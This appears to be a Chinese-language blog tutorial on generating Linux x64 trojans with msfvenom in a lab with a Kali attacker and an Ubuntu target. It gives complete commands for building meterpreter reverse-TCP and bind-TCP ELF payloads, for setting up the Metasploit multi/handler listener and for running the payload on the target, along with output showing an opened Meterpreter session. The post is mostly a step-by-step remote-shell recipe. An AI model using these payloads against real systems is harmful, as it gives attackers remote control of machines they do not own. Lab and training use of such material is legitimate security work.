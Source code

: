 ```yaml
---
layout: post
title: 使用 Msfvenom 生成Ubuntu 64位木马（反向连接、正向连接）
categories: [安全工具]
description: docker 版本安装 msf 
keywords: 安全工具,msf
---
```


# 0x01 环境

攻击机：Kali Linux 2020.1 172.16.252.129
靶机：Ubuntu 16.04 172.16.252.138


## 生成反向连接木马

使用kali自带的Msfvenom工具生成木马。
查看有哪些linux下的载荷：
```
msfvenom -l payloads | grep linux
```

针对Ubuntu 64位靶机，使用linux/x64/meterpreter/reverse_tcp载荷，并指定反弹连接的IP和端口，生成elf类型的木马：

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.16.252.129 LPORT=1234 -f elf > shell.elf

```


打印以下信息：
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 130 bytes
Final size of elf file: 250 bytes

```

在当前目录已经生成了shell.elf文件。

### 打开监听

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp 
set lhost 172.16.252.129
set lport 1234
run
```

### 运行木马

修改之前生成的shell.elf属性为可执行：
```
chmod a+x shell.elf
```
将其拷贝到靶机Ubuntu 16.04中运行：


```
./shell.elf
```

这时kali端打印出：
```
[*] Started reverse TCP handler on 172.16.252.129:1234 
[*] Sending stage (3021284 bytes) to 172.16.252.138
[*] Meterpreter session 2 opened (172.16.252.129:1234 -> 172.16.252.138:56384) at 2020-04-20 07:04:26 -0400
```

## 正向连接木马

类似上面的反向连接木马，可以使用bind_tcp载荷，开启正向连接木马。和反向连接的区别在于：
反向连接木马是**攻击机开放端口**，靶机连过来；
正向连接木马是**靶机开放端口**，攻击机连过去；

生成木马：

msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=4444 -f elf > bindtcp.elf

放到靶机上运行：

./bindtcp.elf

```
msfconsole
use exploit/multi/handler
set payload linux/x64/meterpreter/bind_tcp
set rhost 172.16.252.138
set lport 4444
run
```

成功建立连接：
![成功建立连接：](https://img-blog.csdnimg.cn/20200422103852243.png)


# 参考

[msfvenom生成payload命令+内网透到外网](https://www.cnblogs.com/youyouii/p/10013590.html)